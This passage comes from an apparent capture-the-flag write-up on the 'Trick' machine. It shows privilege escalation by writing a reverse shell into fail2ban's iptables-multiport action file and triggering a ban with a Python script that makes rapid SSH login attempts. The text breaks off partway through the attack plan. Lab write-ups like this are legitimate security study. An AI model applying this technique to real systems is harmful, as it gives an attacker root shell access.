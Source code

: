 ```
maxretry = 5

[...some stuff...]

#
# Action shortcuts. To be used to define action parameter

# Default banning action (e.g. iptables, iptables-new,
# iptables-multiport, shorewall, etc) It is used to define
# action_* variables. Can be overridden globally or per
# section within jail.local file
banaction = iptables-multiport
banaction_allports = iptables-allports
```

Ok, so maybe instead of a custom action, I should be using ``/etc/fail2ban/action.d/iptables-multiport.conf``

First, I tried simply putting my reverse shell inside the actionstart and actionstop sections of the .conf file:

![fail2ban conf edited](fail2ban conf edited.png)

Then I restarted the service:

```
sudo /etc/init.d/fail2ban restart
```

but... still no reverse shell :confused: 

Next, I tried putting my reverse shell inside of the unban action instead. But now I need to find a way to get banned. As seen previously in ``jail.conf``, I will be banned by performing 5 failed authentication attempts in a 10 second span. That's tricky, actually I think that's impossible if trying to log in the naive way. Instead, I tried make at least 5 login attempts at once using a python script:

```python
!/usr/bin/python3

from subprocess import Popen, PIPE

def attempt_login():
    proc = Popen(['ssh', "root@trick.htb"], stdin = PIPE)
    proc.stdin.write(b'not_a_password')
    proc.stdin.flush()

for i in range(10):
    attempt_login()
```

So the plan of attack is as follows, and it has to be very quick:

1. modify  ``/etc/fail2ban/action.d/iptables-multiport.conf`` to have a ban action set to my reverse shell, instead of the default ban action
